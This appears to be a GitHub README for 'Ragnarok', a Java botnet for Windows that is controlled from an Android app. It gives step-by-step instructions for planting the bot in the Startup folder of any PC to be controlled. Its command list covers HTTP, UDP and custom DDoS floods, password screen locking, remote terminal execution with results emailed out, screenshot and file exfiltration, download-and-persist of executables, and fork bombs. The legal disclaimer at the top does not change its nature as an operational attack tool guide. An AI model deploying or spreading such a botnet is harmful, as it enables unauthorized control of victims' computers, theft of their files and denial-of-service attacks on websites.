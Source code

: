 # Ragnarok
Java Botnet for Windows

---EULA---

Ragnarok is a botnet with both fun purpose harmless commands and real ddos capability which can be used to measure ddos resistance on web services by launching attacks from multiple devices.
Ddosing a website without getting permission from its owner is illegal in most of countries.
Installing botnet to school, internet cafe or workplace computers without getting permission is illegal in most of countries.
Using Ragnarok's fun purpose commands on computers that belongs to other people or companies for malicious intent like disabling/locking computer, stealing personal files, executing harmful terminal commands, installing another software/files, watching their screen or causing their browser to visit a harmful website is considered illegal in most of countries.

I dont take any responsibility if you cause any harm with this program so use it at your own risk!

---How To Use---

Step 1: Download Ragnarok app to your Android device from googleplay.

Step 2: Download RagnarokBot.jar from this Github page

Step 3: Copy RagnarokBot.jar to "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\" folder on any windows pc you want to remotely control then make sure you rename it to anything else than RagnarokBot because default name forbidden for creating bot groups. (copying it to startup folder makes windows start it everytime pc turns on)

Step 4: Install Java 8 update 361 (lastest of Java 8) to that pc. Do not install Java versions that came after than Java 8 because they cause massive bugs. You can just download JavaSetup8u361.exe from this Github and use that to install perfect Java version for Ragnarok.

Step 5: Start bot by double clicking that renamed jar file and then open Ragnarok app from your android device and then type name of your jar file to bot group section and press connect.
When you send a command to a bot group then all of bots around the world which has that bot group name on itself will execute that commands so make sure you note what name you used when renaming your jar file.

Step 6: After app says "Connected" you can pick any command from command list then send it to connected bots around the world.
Keep reading to learn about how to modify command arguments.

---How To Send Commands---

Some commands can be sent without any arguments meanwhile some of them require arguments which needs to be seperated with '#' symbol. Arguments bar will be filled with argument template of related command when you select a command so all you need to do is replacing these arguments before sending selected command. Leave arguments bar empty if it comes as empty when you select a command because that means selected command doesnt require any arguments. You can find example command arguments for all available commands below.

---Command List---

HttpFlood;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using http flood method.
Example Command Argument: https://example.com/#5000

UdpFlood;
Arguments: Ip, Threads
Effect: Launches specified number of ddos attacks to given ip/domain by using udp flood method.
Example Command Argument 1: 93.184.216.34#100
Example Command Argument 2: example.com#100

Clusterstorm;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000

I-Mod;
Arguments: Url, Threads, DelayMillisec, PayloadCount
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250#30

Pulsar;
Arguments: Url, Threads, Delay
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250

Lock;
Arguments: password
Effect: prevents target computers from being used until users enter correct password that you set.
Example Command Argument: 123456789

Browse;
Arguments: Url
Effect: Uses default browser to open specified url.
Example Command Argument: https://example.com/

Terminal;
Arguments: CMD
Effect: Executes given terminal command on windows terminal
Example Command Argument: ipconfig

Terminal&Output;
Arguments: CMD, ToEmail
Effect: Executes given terminal command on windows terminal then emails results to given adress.
Example Command Argument: ipconfig#yourmail@gmail.com

Message;
Arguments: Text
Effect: Shows given text on screen.
Example Command Argument: something is in your pc

ChangeDesktopBG;
Arguments: JpgUrl, IntervalMS
Effect: Changes desktop background image with given image from a url in a loop.
Example Command Argument: https://example.com/image.jpg#1000

Screenshot;
Arguments: Count, IntervalMS, ToEmail
Effect: Takes screenshots according to given count and interval then emails them to given adress.
Example Command Argument: 5#10000#yourmail@gmail.com

EmailFile;
Arguments: FilePath, ToEmail, Message
Effect: Picks file according to given path then emails it to given adress with specified message. Uploads file to yandex drive if file is too big to email directly.
Example Command Argument: C:\Users\Admin\Desktop\Document.pdf#yourmail@gmail.com#yay

DownloadFile;
Arguments: Url, FilePath
Effect: Downloads a file from url then puts it to specified location. Downloaded file will be replaced if a file already exists with same name and extension on specified location.
Example Command Argument 1: https://example.com/image.jpg#C:\Users\Admin\Desktop\image.jpg
Example Command Argument 2: https://example.com/someprogram.exe#C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\someprogram.exe

StickyMouse;
Arguments: None
Effect: Mouse cursor wont be able to move far away from its current point.

CrazyMouse;
Arguments: None
Effect: Mouse cursor moves around randomly.

CrazyDrivers;
Arguments: None
Effect: CD/DVD roms will keep opening and closing itself.

CrazyKeyboard;
Arguments: None
Effect: Keyboard will type random stuff constantly. 

BSOD;
Arguments: None
Effect: Creates a fake BSOD effect which can be closed by pressing 'E' key.

ForkBomb;
Arguments: None
Effect: Overloads CPU until pc freezes.

ForkBombUltimate;
Arguments: None
Effect: Same with ForkBomb command but uses different method.

---Things To Remember---

You can have multiple bots with different names on same pc.
There is a chance that somebody else using same bot name with your bot. That will cause his/her commands to be executed by yours too meanwhile your commands will be executed by their botnet too so better prefer some unique names for your jar file (botnet) to have some privacy.
You can copy your bot to any other folder than startup folder and launch it yourself when you need it if you dont want it to auto start when pc turns on.
